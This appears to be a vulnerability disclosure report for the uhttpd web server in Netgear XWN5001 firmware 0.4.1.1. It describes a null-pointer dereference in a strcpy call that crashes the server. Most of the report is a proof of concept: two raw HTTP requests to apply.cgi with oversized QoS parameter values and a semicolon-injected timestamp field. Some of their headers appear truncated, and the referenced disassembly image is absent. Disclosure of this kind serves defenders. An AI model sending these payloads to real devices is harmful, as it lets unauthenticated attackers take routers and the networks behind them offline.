

# xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary contains a null-pointer-dereference vulnerability. When a specific network packet is sent to the uhttpd binary, the strcpy operation crashes, resulting in a denial of service. This vulnerability can be exploited by a local or remote unauthenticated attacker.
## detail
The vulnerability is located in the function at address 0x430780 of the binary usr/sbin/uhttpd. 
strcpy in sub_430780 (line 31 in the picture) is source of the issue.

sub_430780:



## Send package
Pakcges should be sent in order.
# package1
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

plc_qos_port_select=1&hide2_policy=wzqwzqwzq&submit_flag=plc_qos_dev_port_config
```

# package2
```txt
POST /apply.cgi? tim
Host: /cgi-bin/
C
Accept:
Con
Content-Length: 716

qos_port_priority=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&plc_qos_port=11111111111111111111111111111111111111111111111111111111111111111111111111111111111&%20timestamp=;wzq&submit_flag=plc_qos_port_edit
```
